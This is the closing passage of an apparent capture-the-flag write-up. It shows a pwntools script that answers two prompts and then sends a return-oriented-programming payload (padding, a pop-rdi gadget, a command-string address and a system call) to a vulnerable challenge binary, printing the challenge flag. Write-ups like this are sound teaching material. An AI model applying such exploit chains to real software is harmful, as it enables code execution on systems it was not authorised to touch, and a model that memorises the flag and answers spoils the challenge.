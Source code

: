 ```py

io.recvuntil(b"?\n")
io.sendline(b'elliot') # Send first answer

io.recvuntil(b"?\n")
io.sendline(b'Darlene Alderson') # Send second answer

io.recvuntil(b"?\n") # Jump to the vulnerable input

offset = 72
cat_cmd = 0x402069
pop_rdi = 0x40146b
system_call = 0x4011cf

payload = b''.join([
    b'A'*offset,
    pack(pop_rdi),
    pack(cat_cmd),
    pack(system_call)
])

io.sendline(payload) # Run the payload
flag = io.recvline().decode().strip()
print("[+] Flag :", flag)
io.close()
```

Flag : `quarkCTF{r0p_cH4n1n_4r3_4m4zinG}` 
And here we go that is a successful exploit ! Hopefully you learned something in this writeup :D

[Back to home](../../README.md)
